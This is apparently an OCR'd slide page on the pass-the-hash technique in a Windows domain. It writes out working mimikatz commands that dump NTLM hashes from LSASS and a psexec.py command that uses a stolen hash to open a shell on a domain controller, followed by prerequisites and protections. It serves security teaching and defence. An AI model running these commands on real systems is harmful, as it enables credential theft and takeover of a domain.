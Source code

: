 psexec.exe \\SRV01 cmd.exe -accepteula

mimikatz.exe
privilege::debug
sekurlsa::msv

python.exe psexec.py -hashes :e9cea451b61bd792681893d48f9683b9 CONTOSO/v.fergusson.adm@192.168.1.11 cmd.exe
This opens a command prompt on 192.168.1.11 (aka **DC01**) and we used to hash of Vickie during the logon process.

### Extract the hash from the LSASS memory 
	▪  This requires the seDebugPrivilege 
	▪ Requires that the targeted identity has cached its credentials 
### Inject the hash into your current session 
	▪ Either locally, or later on other systems 
	▪ The “new” hash is used to calculate NTLM responses 
### Does not trigger any failed authentication attempts

Attack’s pre-requisites - A victim is connected to the system, or a service is running under a user account - seDebugPrivilege, or LSASS memory dump

Protection - Healthy administration practices (do not connect to untrusted systems with privileged accounts, use RDP restricted mode) - Use the Protected Users group (for privileged accounts) - Block NTLM on systems where it is not used (very difficult in large environments)

